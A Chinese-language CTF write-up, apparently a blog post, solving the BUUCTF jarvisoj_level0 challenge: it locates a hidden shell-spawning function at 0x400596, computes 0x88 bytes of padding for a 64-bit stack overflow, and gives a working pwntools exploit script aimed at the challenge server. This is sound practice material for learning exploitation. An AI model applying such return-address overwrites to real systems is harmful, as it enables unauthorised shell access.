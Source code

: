 # BUUCTF-PWN-jarvisoj_level0

这道题也是栈溢出 但是有不同的函数

read()

write()

 [pwn常用函数_pwn write函数_「已注销」的博客-CSDN博客](https://blog.csdn.net/m0_49959202/article/details/120445700) 

先进行nc



<img src="https://i-blog.csdnimg.cn/blog_migrate/737d3c906c0a465956fb626b04ee1cd4.png" alt="" style="max-height:179px; box-sizing:content-box;" />


输出完就让我们输入

开始查信息



<img src="https://i-blog.csdnimg.cn/blog_migrate/aebbd92f9baaa3c3ca3e0aa023039797.png" alt="" style="max-height:251px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/c1efecdd5c6a426ce01cdf78524a95aa.png" alt="" style="max-height:249px; box-sizing:content-box;" />


发现是64

放入ida64 查字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/29aabefe034f3f7caebd0613ad0d481a.png" alt="" style="max-height:356px; box-sizing:content-box;" />


发现/bin/sh 漏洞代码

我们进去看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/33ca81a90e00b612514820a3076db6a7.png" alt="" style="max-height:279px; box-sizing:content-box;" />


先记住地址

```cobol
400596
```

进去发现果然没有使用这个函数

我们重新回到main函数



<img src="https://i-blog.csdnimg.cn/blog_migrate/6daec2b261629ab5bcfb2e429ffe5198.png" alt="" style="max-height:166px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/7a8a155df8b567777966b62ef81336f2.png" alt="" style="max-height:191px; box-sizing:content-box;" />


果然就是输出hello world 然后输入

这样我们就可以栈溢出

发现buf 占80字节 加上64基地址的8字节 我们就需要0x88个字节填充满

我们可以开始写exp

```cobol
from pwn import *
p=remote('node4.buuoj.cn',28671)
payload=b'A'*0x88+p64(0x400596)
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1cf6a579eb181a09a236b4c85c1674a3.png" alt="" style="max-height:409px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/f6005b4bb70c43f8c3bee8bfc7fa60ce.png" alt="" style="max-height:143px; box-sizing:content-box;" />